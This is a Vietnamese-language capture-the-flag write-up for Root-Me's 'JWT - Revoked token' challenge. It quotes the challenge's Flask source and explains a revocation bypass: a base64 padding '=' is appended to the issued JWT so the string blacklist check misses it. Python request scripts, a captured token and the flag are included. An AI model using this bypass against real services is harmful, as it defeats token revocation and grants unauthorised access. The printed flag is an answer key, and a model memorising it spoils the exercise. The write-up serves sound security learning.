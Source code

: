 # JWT - Revoked token

## Discription 

Two endpoints are available :

- POST : /web-serveur/ch63/login
- GET : /web-serveur/ch63/admin

Get an access to the admin endpoint.

## Solution

Bài cho source code nên việc đầu tiên cần làm sẽ là đi mổ sẻ cái này .

```
def login():
    try:
        username = request.json.get('username', None)
        password = request.json.get('password', None)
    except:
        return jsonify({"msg":"""Bad request. Submit your login / pass as {"username":"admin","password":"admin"}"""}), 400
 
    if username != 'admin' or password != 'admin':
        return jsonify({"msg": "Bad username or password"}), 401
 
    access_token = create_access_token(identity=username,expires_delta=datetime.timedelta(minutes=3))
    ret = {
        'access_token': access_token,
    }
   
    with lock:
        blacklist.add(access_token)
 
    return jsonify(ret), 200
```

Đầu tiên login() , hàm này làm nhiệm vụ tạo cho ta một cái token có thời hạn 3 phút để xác thực và cụ thể ở đây ta cần gửi một user = admin và pass = admin . Sẽ chẳng có gì đáng nói nếu hàm này ko thực hiện thêm một công việc đó là thêm cái token này vào blacklist .  

```
def delete_expired_tokens():
    with lock:
        to_remove = set()
        global blacklist
        for access_token in blacklist:
            try:
                jwt.decode(access_token, app.config['JWT_SECRET_KEY'],algorithm='HS256')
            except:
                to_remove.add(access_token)
       
        blacklist = blacklist.difference(to_remove)
```

Hiểu đơn giản đây là một hàm dùng để xóa những token hết hạn và nó sẽ được gọi sau mỗi 10s .

```
def protected():
    access_token = request.headers.get("Authorization").split()[1]
    with lock:
        if access_token in blacklist:
            return jsonify({"msg":"Token is revoked"})
        else:
            return jsonify({'Congratzzzz!!!_flag:': FLAG})
```

Hàm này sẽ kiểm tra token có trong blacklist hay ko nếu không thì nó sẽ đưa flag cho ta . 

Nhận định ban đầu để pass thì ta cần có một token ko có trong blacklist nhưng ngay từ khi được tạo thì token đã được thêm vào blacklist và chỉ đc xóa đi khi hết hạn khi ấy thì nó lại không còn hợp lệ nữa khá khó khăn để giải quyết vấn đề này .

Tuy nhiên có một lối thoát đó là:
+ Tất cả các phần của JWT đều được encode base64 .
+ Đầu tiên ta cần biết về kí tự đệm (=) trong base64 , đây là kí tự giúp đáp ứng các nhu càu về độ dài mà không mang ý nghĩa .Tỉ lệ mã hóa trong base64 là cứ 3 byte tương ứng với 4 kí tự như vậy trong một số trường hợp chiều dài mã hóa là một số lẻ thì phần dữ liệu cuối chuỗi sẽ bị thiếu . Vì lí do trên họ thêm phần đệm để thỏa mãn yêu cầu về chiều dài cũng như xác định nơi kết thúc của luồng dữ liệu mà không làm thay đổi dữ liệu .(https://qastack.vn/programming/4080988/why-does-base64-encoding-require-padding-if-the-input-length-is-not-divisible-by)  

Từ hai điều trên chúng ta chỉ cần thêm đấu bằng vào cuối token nhận đc từ enpoint /login là bypass thành công.

Trước tiên là code python tạo client request với post lấy token (lưu ý là phải có "Content-Type": "application/json" ):

```
import requests

url = "http://challenge01.root-me.org/web-serveur/ch63/login"

header = {"Content-Type": "application/json"}
data = '{"username":"admin","password":"admin"}'

res = requests.post(url, data=data, headers=header)

print(res.text) 
```

> {"access_token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2MjQ0NDIyMDgsIm5iZiI6MTYyNDQ0MjIwOCwianRpIjoiYTc5MjFlZTctNjZlNy00MjVkLWFjYjYtMWUwOGE4N2EwNjQ3IiwiZXhwIjoxNjI0NDQyMzg4LCJpZGVudGl0eSI6ImFkbWluIiwiZnJlc2giOmZhbHNlLCJ0eXBlIjoiYWNjZXNzIn0.0cwbnn0fuutn09i2THwujzZ_YsV1HKQQsWGH3UeUFh0"}

Tiếp theo là sửa token (add =) và gửi lên endpont /admin .

```
import requests

url = "http://challenge01.root-me.org/web-serveur/ch63/admin"

header = {"Content-Type": "application/json","Authorization": "Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2MjQ0NDIyMDgsIm5iZiI6MTYyNDQ0MjIwOCwianRpIjoiYTc5MjFlZTctNjZlNy00MjVkLWFjYjYtMWUwOGE4N2EwNjQ3IiwiZXhwIjoxNjI0NDQyMzg4LCJpZGVudGl0eSI6ImFkbWluIiwiZnJlc2giOmZhbHNlLCJ0eXBlIjoiYWNjZXNzIn0.0cwbnn0fuutn09i2THwujzZ_YsV1HKQQsWGH3UeUFh0="}

res = requests.get(url,headers=header)

print(res.text)

```

## Flag

 {"Congratzzzz!!!_flag:":"Do_n0t_r3v0ke_3nc0d3dTokenz_Mam3ne-Us3_th3_JTI_f1eld"}


